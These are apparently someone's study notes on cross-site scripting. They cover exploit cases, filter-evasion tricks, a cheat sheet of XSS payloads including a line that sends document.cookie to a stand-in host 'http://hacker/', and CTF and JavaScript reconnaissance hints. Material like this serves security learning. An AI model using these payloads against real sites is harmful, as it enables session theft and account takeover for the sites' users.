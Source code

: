     - Exploit Case 1
      - Simple script tag:  `<script>alert(1);</script>`
      - If have WAF or filters, embed an anchor tab or img with a bad source or onError.
    - Exploit Case 2
      - Double quotes passed through, scrubbed {} brackets, use DOM events e.g. mouseover, excript executes on event.
    - Exploit Case 3
      - HTML encoding e.g. `; alert(1);`
      - String escape e.g. `</script><script>alert(1);</script>`
    - DOM XSS
      - Does not hit server side, hard to mitigate
      - Good explanation [here](//www.netsparker.com/blog/web-security/dom-based-cross-site-scripting-vulnerability/)

  - How to change sessionID and CRSF?
     - Bypass filters, use onError to insert `<script>` via image
     - HTML parsing in strings and quotes
     - eval/SetTimeOut
     - DOM XSS - dont put user-controlled data directly into page, hard to mitigate
     - Forced Browsing ( perform every action using highest priviledged user, swapping IDs/CSRF, or tokens )

  - Cheat Sheet XSS:
     - Good [Sources and sinks](//portswigger.net/web-security/dom-based)
     - `><h1>test</h1>` | ` "\"><img src=/ onerror=alert(1)>" ` | `'+alert(1)+'`
     - `http://"onmouseover"=alert(1)` | `onmouseover="alert(1)"` | `+ADw-script+AD4-alert(1);+ADw-/script+AD4-`
     - `"><SCRIPT>var+img=new+Image();img.src="http://hacker/"%20+%20document.cookie;</SCRIPT>`
     
     - One obvious way to craft an XSS exploit is to terminate the double quotation marks that enclose the attribute value
       - `"><script>alert(document.domain)` 
   
     - Polygot XSS locator: `javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>`
     - Malformed A Tags:  `\<a onmouseover="alert(document.cookie)"\>xxs link\</a\>`
     - Bypass most SRC domain filters:  `<IMG SRC=# onmouseover="alert('xxs')">`
         - [1] XSS evasion cheatsheet

   - CourseworkCTF:
    - Look at image source to get FLAG
    - Add quote to end of url, injectable
    - Page content controllable, can insert script via special character to DB then render
    - Forbidden view page, change address bar to edit and get flag

#### Javascript for hackers 
  - Using Chrome dev tools for static analysis of JS
  - List of know vulnerabilities in [Public firing range] e.g. postMessage `eval`
  - Cool POC tool with example [//repl.it/@MarkElliott/postMessage-Eval-POC#index.html]
  - Finding API endpoints in JS (keywords such as v1, api etc )
  - Look at wayBackMachine to find/track changes in code/javascript, look at first applications in WBM, as most rushed and least protected, then reverse engineer.


[1]: //owasp.org/www-community/xss-filter-evasion-cheatsheet
[Ghidra]: //github.com/NationalSecurityAgency/ghidra
[Radar2]: //rada.re/n/radare2.html
[Public firing range]: //public-firing-range.appspot.com/